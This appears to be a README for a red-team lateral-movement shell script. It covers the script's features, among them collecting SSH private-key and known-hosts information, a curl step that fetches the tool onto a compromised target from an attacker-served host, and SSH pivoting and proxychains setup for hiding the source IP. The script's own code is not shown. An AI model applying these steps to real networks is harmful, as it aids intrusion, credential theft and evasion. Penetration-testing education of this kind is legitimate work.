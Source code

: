 # Lateral Movement Phase

Lateral Movement is about the ability to move around the network. It is possible that the actual target cannot be reached from or on the initially compromised host. In this case, access must be gained to one or more remote systems. To do this, the network must be explored. Similar to Internal Reconnaissance, information is gathered here, but about the current network and surrounding systems.

This script serves as a tool for receiving some information that may be important for Lateral Movement.

## Features

- Get network neighbours (from arp table)
- Get reachable IP addresses
- Port scan of a given IP address
- Get SSH information about private keys and known hosts

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/lateral-movement/lateral-movement.sh
sh lateral-movement.sh -h
```
Local network:
```sh
# Host
sh lateral-movement.sh -w
# Target
curl -LJO <Host>:8000/
sh lateral-movement.sh -h
```

### Parameters

```sh
sh lateral-movement.sh -h

Usage: lateral-movement.sh [options]

Options:
-h               Show this help message
-p <IP address>  Do a port scan of the given IP address

-w               Serves a local web server for transferring files

Output:
-c               No colours. Without colours, the output can probably be read better
-q               Quiet. No banner and no advisory displayed
```

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Pivoting and Proxychains

Pivoting can be described as a method or technique that allows an already compromised system (also called a "plant" or "foothold") to be used to move into other systems on the same network. This can be used to bypass restrictions on a network (a firewall, for example).

#### Pivoting with SSH
Local forwarding: make a port of the target locally reachable:
````sh
ssh -L <local port>:<remote host>:<remote port> [<jumphost>]
````
Remote forwarding: Make a local port externally accessible:
````sh
ssh -R <remote port>:<localhost>:<local port> [<jumphost>]
````
Dynamic forwarding: Make all ports of the target locally accessible as SOCKS proxy:
````sh
ssh -D <local port> <jump host>
````

#### ProxyChains

Proxychains is a tool that forces any TCP connection of any application through one or more proxy servers (for example SOCKS4/5 or HTTP(S) proxy).  
With proxychains and port forwarding, it is possible to forward a connection through device B to device C.

````sh
# syntax:
proxychains <application> <argument>

# example:
proxychains nmap -sS 10.0.2.16 -p 80
````
The nmap scan is routed through the proxy servers defined in the configuration file.

ProxyChains configuration file: /etc/proxychains.conf
````sh
# syntax:
<typ> <IP> <port> <user> <password>
# examples:
socks4 127.0.0.1 9000
socks5 192.168.89.45 4567 user pass
````

Thus it is possible to disguise the source IP, as the destination will only receive the IP of the last proxy as source.
